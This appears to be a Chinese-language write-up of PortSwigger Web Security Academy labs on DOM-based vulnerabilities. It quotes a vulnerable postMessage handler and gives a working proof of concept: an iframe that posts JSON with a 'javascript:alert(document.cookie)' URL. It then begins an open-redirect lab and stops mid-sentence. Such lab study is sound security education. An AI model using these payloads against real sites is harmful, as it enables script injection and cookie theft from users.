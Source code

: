 ```html
<script>
    window.addEventListener('message', function(e) {
        var iframe = document.createElement('iframe');
        var ACMEplayer = {element: iframe};
        var d;
        document.body.appendChild(iframe);
        try {
            d = JSON.parse(e.data);
        } catch(e) {
            return;
        }
        switch(d.type) {
            case "page-load":
                ACMEplayer.element.scrollIntoView();
                break;
            case "load-channel":
                ACMEplayer.element.src = d.url;
                break;
            case "player-height-changed":
                ACMEplayer.element.style.width = d.width + "px";
                ACMEplayer.element.style.height = d.height + "px";
                break;
        }
    }, false);
</script>
```

> **`JSON.parse()`** 方法用来解析JSON字符串，构造由字符串描述的JavaScript值或对象。

尝试构造json：(注意[json的格式](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/JSON))

> 对象和数组的属性名称必须是**双引号**括起来的字符串；最后一个属性后不能有逗号。

`{"type":"load-channel", "url":"javascript:alert(document.cookie)"}`

这个json就会在switch那里进入第二个case，然后把javascript部分放到src里面，进而执行alert函数。

POC:

```html
<iframe src="https://ac451f2d1fb1f86d80f705ef00a8009a.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\", \"url\":\"javascript:alert(document.cookie)\"}","*")'>
```

#### 4. DOM-based open redirection

这道题在评论页面有这样一段源码：

```html
<a href="#" onclick="returnUrl = /url=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = &quot;/&quot;">Back to Blog</a>
```

所以给url参数就好了,
